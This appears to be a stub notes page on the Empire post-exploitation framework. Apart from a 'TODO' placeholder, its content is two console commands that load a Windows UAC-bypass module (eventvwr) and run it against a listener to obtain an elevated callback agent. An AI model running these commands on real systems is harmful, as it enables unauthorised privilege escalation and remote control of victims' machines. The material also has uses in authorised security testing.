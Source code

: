 # Empire

TODO: Fill this info

`(Empire: WindowsWS01) > usemodule shell/privesc/bypassuac_eventvwr`

`(Empire: WindowsWS01) > bypassuac <listener>`